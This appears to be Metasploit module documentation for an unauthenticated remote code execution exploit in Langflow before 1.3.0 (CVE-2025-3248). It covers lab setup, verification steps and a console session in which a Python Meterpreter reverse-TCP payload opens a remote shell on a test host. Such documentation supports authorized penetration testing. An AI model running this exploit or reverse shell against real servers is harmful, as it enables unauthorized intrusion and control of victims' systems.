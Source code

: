## Vulnerable Application

Langflow versions prior to 1.3.0 are susceptible to code injection in the /api/v1/validate/code endpoint.
A remote and unauthenticated attacker can send crafted HTTP requests to execute arbitrary code.

The vulnerability affects:

    * Langflow < 1.3.0
    * Langflow < 1.3.2 is authentication isn't enabled.

This module was successfully tested on:

    * Langflow 1.3.2 installed with Docker

(Seems like if authentication is not enabled, version 1.3.2 is vulnerable.)


### Installation
1. `git clone https://github.com/langflow-ai/langflow.git`

2. `cd langflow/docker_example`

3. `docker compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/langflow_unauth_rce_cve_2025_3248`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/multi/http/langflow_unauth_rce_cve_2025_3248
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > options

Module options (exploit/multi/http/langflow_unauth_rce_cve_2025_3248):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    7860             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Version 1.3.2 detected.
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:44358) at 2025-04-11 14:42:43 +0900

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : 36ad04bd6644
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
